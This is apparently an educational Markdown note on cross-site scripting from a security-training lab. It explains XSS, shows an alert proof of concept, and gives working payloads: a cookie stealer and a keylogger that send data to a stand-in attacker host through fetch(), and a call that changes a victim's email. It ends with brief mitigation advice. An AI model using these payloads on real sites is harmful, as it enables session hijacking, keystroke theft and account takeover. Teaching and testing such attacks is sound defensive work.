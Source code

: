 ## Cross-Site Scripting (XSS) Overview

Cross-Site Scripting (XSS) is a type of injection attack where malicious JavaScript is injected into a web application with the intention of being executed in the browsers of other users. This can lead to a wide variety of attacks ranging from session hijacking to manipulation of web content and keylogging.

---

## XSS Payloads

An XSS payload is the JavaScript code that an attacker wants to execute in a victim's browser. Payloads typically have two core components:

- **Intention**: The desired outcome or effect of the JavaScript (e.g., stealing cookies, logging keys, etc.).
- **Modification**: The adaptations or encoding needed to successfully deliver and execute the payload in a specific context or environment.

---

## Testing for XSS Vulnerabilities

A basic test for XSS is to check if arbitrary JavaScript can be injected and executed on a web page. A common proof-of-concept payload is:

```html
<script>alert('1');</script>
```

If this script executes and displays a browser alert, the site is vulnerable to XSS.

---

## Common Malicious XSS Payloads

### 1. Session Stealing

Web sessions often store authentication tokens in cookies. A malicious actor can exfiltrate cookies using the following payload:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- `document.cookie` retrieves the current cookies.
- `btoa()` base64-encodes the cookie for safe transmission.
- The data is then sent via `fetch()` to an attacker-controlled endpoint.

### 2. Keylogger

Keyloggers can be implemented via XSS to capture everything a user types:

```html
<script>
document.onkeypress = function(e) {
    fetch('https://hacker.thm/log?key=' + btoa(e.key));
}
</script>
```

Every keystroke is base64-encoded and sent to a remote server controlled by the attacker. This is particularly dangerous on login or payment pages.

### 3. Business Logic Abuse

In some applications, exposed JavaScript functions may provide sensitive functionality. If not secured, these functions can be called maliciously:

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

This payload demonstrates changing a user's email address, potentially enabling the attacker to later perform a password reset attack.

---

## Conclusion

XSS vulnerabilities are dangerous because they execute within a user's browser, leveraging the trust the browser has for the website. Proper validation and sanitization of input are essential to mitigate XSS threats. Tools like Content Security Policy (CSP), output encoding, and secure development practices help prevent these types of attacks.
